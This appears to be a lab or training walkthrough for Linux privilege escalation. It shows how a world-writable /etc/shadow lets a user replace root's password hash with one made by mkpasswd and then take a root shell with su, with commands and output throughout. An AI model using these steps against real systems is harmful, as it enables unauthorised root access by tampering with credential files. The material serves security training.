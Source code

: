1. Check the permissions of the /etc /shadow file:
2. 
3.  ![[Pasted image 20211230133000.png]]


```bash - target
./lse.sh -l 1 -i | more
```

```bash - target
ls -l /etc/shadow
```

>-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

Note that it is world writable.

2. Copy / save the contents of /etc/shadow so we can restore it later.

3. Generate a new SHA-512 password hash:

```bash - kali
mkpasswd -m sha-512 newpassword
```

```bash - kali
$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/
```

4. Edit the /etc/shadow and replace the root user’s

password hash with the one we generated.

```bash - target
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
```

5. Use the su command to switch to the root user,

entering the new password when prompted:

```bash - target
su
```

```bash - target
newpassword
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)












